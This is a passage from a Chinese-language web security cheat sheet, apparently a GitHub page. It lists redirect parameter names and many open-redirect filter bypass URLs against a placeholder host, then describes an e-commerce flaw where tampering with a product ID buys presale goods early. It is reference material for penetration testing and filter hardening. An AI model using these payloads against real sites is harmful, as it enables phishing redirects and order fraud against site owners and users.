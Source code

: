    ```
   redirectUrl=
   callback=
   return_url=
   toUrl=
   ReturnUrl=
   fromUrl=
   redUrl=
   request=
   ```

3. bypass

   ```
   无协议头绕过
   https://debian.local/redirect.php?url=/www.example.com
   https://debian.local/redirect.php?url=\www.example.com
   https://debian.local/redirect.php?url=//www.example.com
   https://debian.local/redirect.php?url=///www.example.com
   https://debian.local/redirect.php?url=www.example.com
   @ 绕过 
   http://debian.local/redirect.php?url=http://debian.local@example.com
   ? 绕过
   http://debian.local/redirect.php?url=http://example.com?debian.local
   . 绕过
   http://debian.local/redirect.php?url=http://debian.local.example.com
   # 绕过
   http://debian.local/redirect.php?url=http://example.com#debian.local
   / 绕过，可以尝试多个正斜杠一起用，如/、//、///
   http://debian.local/redirect.php?url=http://example.com/debian.local
   \ 绕过
   http://debian.local/redirect.php?url=http://example.com\debian.local
   双写参数 绕过
   http://debian.local/redirect.php?url=http://debian.local&url=http://example.com
   进制 绕过
   http://debian.local/redirect.php?url=http://3232235777   
   （3232235777为IP地址192.168.1.1的十进制值
   以192.168.1.1为例，把它转为10进制数的公式是：
   192 * 256^3 + 168 * 256^2 +1 * 256 + 1 * 1 = 3232235777）
   第三方 绕过
   http://debian.local/redirect.php?url=https://www.example.com/link?url=yti8PhYOnbmJkgvkJj4P7iT4HLM4BO9pK0esOAK376K
   （假设网站是允许跳转example.com这个域名的，但不可跳转别的域名，那就可以借助example.com这个域名来实现跳转到其他网站）
   重复特殊字符绕过
   https://debian.local/redirect.php?url=//www.example.com//..
   https://debian.local/redirect.php?url=www.example.com//..
   ```

### 电商漏洞

1. 提前购买

   ```
   某些电商在节日活动时会有商品预售的功能
   假设：预售订单的商品 ID 为 001，普通订单的商品 ID 为 002
   那么当购买普通商品，提交订单时，将商品订单从 002 修改为 001 ，即可购买预售商品
   ```

